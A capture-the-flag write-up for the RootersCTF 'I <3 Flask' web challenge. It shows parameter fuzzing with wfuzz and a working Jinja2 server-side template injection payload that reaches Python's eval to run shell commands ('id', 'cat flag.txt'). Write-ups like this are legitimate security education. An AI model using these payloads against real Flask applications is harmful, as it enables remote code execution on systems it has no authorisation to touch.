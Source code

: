 ## I <3 Flask

### Description

- **Category**: Web

This challenge hadn't a description, it is just a Flask Application.

Challenge Link: [iloveflask](https://iloveflask.rootersctf.in/)

### Solution

When i entered in the web application I saw that the webapp uses Flask as a backend, these types of applications are often vulnerable to SSTI (*Server Side Template Injection*).

![](Images/1.png)



After reviewing the website I couldn't locate any vulnerability so I decided to try to find out if the application uses any hidden parameters, to do that I used the wfuzz tool and I discovered the parameter "**name**"

```bash
$ wfuzz -c -w raft-large-directories.txt --hc 404 --hh 2292 "https://ilovefask.rootersctf.in/?FUZZ=test"
```

![](Images/2.png)



Finding out the parameter I decided to test if the application was vulnerable to **SSTI** using the payload "**{{8*8}}**"

![](Images/3.png)

When I realized that the web application was vulnerable, I tried to find more information about the web application configuration using the payload "**{{config}}"**

![](Images/4.png)



After many attempts I finally managed to get the code execution in the web application getting the user who is running the web application.

```python
{% for c in [].__class__.__base__.__subclasses__() %} {% if c.__name__ == 'catch_warnings' %} {% for b in c.__init__.__globals__.values() %} {% if b.__class__ == {}.__class__ %} {% if 'eval' in b.keys() %} {{ b['eval']('__import__("os").popen("id").read()') }} {% endif %} {% endif %} {% endfor %} {% endif %} {% endfor %}
```

![](Images/5.png)



The final step was to get the flag by running "**cat /flag**" using the previous payload.

```python
{% for c in [].__class__.__base__.__subclasses__() %} {% if c.__name__ == 'catch_warnings' %} {% for b in c.__init__.__globals__.values() %} {% if b.__class__ == {}.__class__ %} {% if 'eval' in b.keys() %} {{ b['eval']('__import__("os").popen("cat flag.txt").read()') }} {% endif %} {% endif %} {% endfor %} {% endif %} {% endfor %}
```

![](Images/6.png)

> Flag:  rooters{I_still_love_flask_fd02a527ca93ff0a}ctf